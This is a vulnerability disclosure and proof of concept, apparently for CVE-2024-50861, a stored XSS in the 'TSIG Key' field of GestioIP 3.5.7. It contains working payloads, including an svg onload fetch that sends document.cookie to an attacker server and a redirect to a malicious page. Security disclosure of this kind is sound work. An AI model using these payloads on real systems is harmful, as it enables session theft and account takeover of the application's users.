








# CVE-2024-50861

- [Information](#information)
	- [Description](#description)
- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
	- [Description](#description)
	- [Steps to Reproduce](#steps-to-reproduce)

## Information

### Description

The `ip_mod_dns_key_form.cgi` request is vulnerable to Stored XSS (Stored Cross-Site Scripting). An attacker can save malicious content in the "TSIG Key" (tsig_key) field, which could allow for data exfiltration and enable CSRF (Cross-Site Request Forgery) attacks.

**Versions Affected:**  3.5.7

## Proof-of-Concept Exploit

### Description

The http://localhost/gestioip/res/ip_mod_dns_key_form.cgi feature of GestioIP 3.5.7 is vulnerable to Stored XSS. An authenticated attacker with appropriate permissions can inject malicious code into the *tsig_key* form field and save it to the database. Once saved, any user who accesses the "*DNS Key*" page will trigger the Stored XSS, leading to the execution of malicious code.

### Steps to Reproduce

1. **Enable "DNS Key" Feature**

First, ensure that "Dynamic DNS updates" is enabled in the global configuration:

Manage > Manage GestioIP > Global Configuration > Dynamic DNS updates enabled: yes

This will enable the following menus:

- Manage > DNS Keys

- Manage > DNS Update User

2. **Create a DNS Key Entry**

To **create a new** *DNS key* entry and also **edit** an existing one, the user must belong to a group with the "Manage Sites And Categories" permission. By default, "Admin" and "GestioIP Admin" groups have this permission.

Also, you can configure this permission to any group under:

Manage > User Groups > Manage Sites and Categories

3. **Enter payload**

Once group permission is set, input one of the following payloads into the "TSIG Key" (*tsig_key*) field and save it:

**1 - Test basic XSS**

``

We can verify the value was saved to the MySQL database:

**2 - Send data (cookies) to the attacker's server**

`<svg/onload="fetch('http://10.20.0.1:8000/steal_data',{method:'POST',body:document.cookie})">`

The attacker server receives a POST request with data that can be saved:

**3 - Redirect the user to a malicious site**

`<svg/onload="window.location='http://10.20.0.1:8090/malicious_page.html'">`

User is redirected:

GET request that's received by the attackers server:

DANGER:
Once the payload is saved into *tsig_key*  field, **any authenticated user** (even those with "Read-Only" permissions) can access the "DNS Key" page, triggering the Stored XSS (provided that "Dynamic DNS updates enabled" is set to "yes").

Obs
By default, this field *tsig_key* is 150 char long

